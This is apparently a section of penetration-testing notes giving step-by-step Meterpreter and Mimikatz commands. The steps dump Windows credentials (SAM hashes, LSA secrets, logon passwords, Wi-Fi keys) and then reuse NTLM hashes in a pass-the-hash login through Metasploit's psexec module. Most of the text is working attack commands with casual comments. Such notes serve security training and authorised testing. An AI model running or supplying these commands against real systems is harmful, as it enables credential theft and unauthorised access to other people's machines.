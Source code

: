 <a id=7.2.3></a>
### Dumping Hashes with Mimikatz

Mimikatz is a powerful post exploitation tool written by Benjamin Delpy. It allows the extraction of plaintext credentials,
hashes from the SAM-database, and more.

The SAM (Security Account Manager) is a database file on Windows systems that stores all users and passwords and can
be used to authenticate both local and remote users.

We can use the built-in plugin for Meterpreter called Kiwi to run mimikatz on memory without the need of dropping
an executable on the machine.

```bash
meterpreter > load kiwi
# plugin the plugin!
meterpreter > help
# at the bottom you'll see the kiwi commands.
meterpreter > creds_all
# just get it all!!
meterpreter > lsa_dump_sam
# dump the SAM database. oh btw, in certain configs you an use the NTLM
# hashes as passwords. neat, right?
meterpreter > wifi_list 
# get all SSIDs with their respective passwords (if available)
meterpreter > lsa_dump_secrets
# get the secrets...
meterpreter > upload /usr/share/windows/mimikatz/x64/mimikatz.exe
# if you reaaally wanted to upload mimikatz.
meterpreter > shell 
C:\>.\mimikatz.exe 
mimikatz # privilege::debug
# if priv == 20, we good.
mimikatz # sekurlsa::logonpasswords
# get all the logon passwds. if lucky you can get a cleartext password... pray!
mimikatz # lsadump::sam
# lsa_dump_sam alias????
```

<a id=7.2.4></a>
### Pass-the-hash with PSexec

Pass-the-hash is an exploitation technique used to "bypass" authentication through the use of valid
NTLM hashes.

We can use PsExec module to legitimately authenticate with the target via SMB.

This techniques grants us access to the target system via legitimate credentials as opposed to obtaining
access through exploitation through service exploitation.

```bash
meterpreter > migrate -N lsass.exe 
# this might not be possible at first. the point is to have SYSTEM privileges
# or similar, because we will be dumping hashes.
meterpreter > hashdump
# get them hashes...
meterpreter > bg
msf6 > search psexec
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set payload [PAYLOAD]
msf6 exploit(windows/smb/psexec) > set SMBUser [USERNAME]
msf6 exploit(windows/smb/psexec) > set SMBPass [LN:NTLM] # put both!
msf6 exploit(windows/smb/psexec) > run
```